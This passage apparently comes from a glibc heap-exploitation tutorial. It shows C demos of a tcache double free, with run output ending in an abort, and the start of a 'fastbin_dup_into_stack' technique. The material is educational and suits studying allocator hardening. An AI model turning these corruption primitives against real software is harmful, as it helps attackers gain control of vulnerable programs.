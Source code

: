 ```c
    fprintf(stderr, "Then malloc 8 times at the same address\n");
    int *a[10];
    for (i = 0; i < 8; i++) {
        a[i] = malloc(0x40);
        fprintf(stderr, "malloc %d: %p => %p\n", i+1, &a[i], a[i]);
    }

    fprintf(stderr, "Finally trigger double-free\n");
    for (i = 0; i < 2; i++) {
        fprintf(stderr, "free %d: %p => %p\n", i+1, &a[i], a[i]);
        free(a[i]);
    }
}
```

```text
$ gcc -g tcache_double-free.c
$ ./a.out
First allocate a fastbin: p=0x559e30950260
Then free(p) 7 times
free 1: 0x7ffc498b2958 => 0x559e30950260
free 2: 0x7ffc498b2958 => 0x559e30950260
free 3: 0x7ffc498b2958 => 0x559e30950260
free 4: 0x7ffc498b2958 => 0x559e30950260
free 5: 0x7ffc498b2958 => 0x559e30950260
free 6: 0x7ffc498b2958 => 0x559e30950260
free 7: 0x7ffc498b2958 => 0x559e30950260
Then malloc 8 times at the same address
malloc 1: 0x7ffc498b2960 => 0x559e30950260
malloc 2: 0x7ffc498b2968 => 0x559e30950260
malloc 3: 0x7ffc498b2970 => 0x559e30950260
malloc 4: 0x7ffc498b2978 => 0x559e30950260
malloc 5: 0x7ffc498b2980 => 0x559e30950260
malloc 6: 0x7ffc498b2988 => 0x559e30950260
malloc 7: 0x7ffc498b2990 => 0x559e30950260
malloc 8: 0x7ffc498b2998 => 0x559e30950260
Finally trigger double-free
free 1: 0x7ffc498b2960 => 0x559e30950260
free 2: 0x7ffc498b2968 => 0x559e30950260
double free or corruption (fasttop)
[2]    1244 abort (core dumped)  ./a.out
```

### fastbin_dup_into_stack

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    unsigned long long stack_var = 0x21;
    fprintf(stderr, "Allocating 3 buffers.\n");
    char *a = malloc(9);
    char *b = malloc(9);
    char *c = malloc(9);
    strcpy(a, "AAAAAAAA");
    strcpy(b, "BBBBBBBB");
    strcpy(c, "CCCCCCCC");
    fprintf(stderr, "1st malloc(9) %p points to %s\n", a, a);
    fprintf(stderr, "2nd malloc(9) %p points to %s\n", b, b);
    fprintf(stderr, "3rd malloc(9) %p points to %s\n", c, c);

    fprintf(stderr, "Freeing the first one %p.\n", a);
```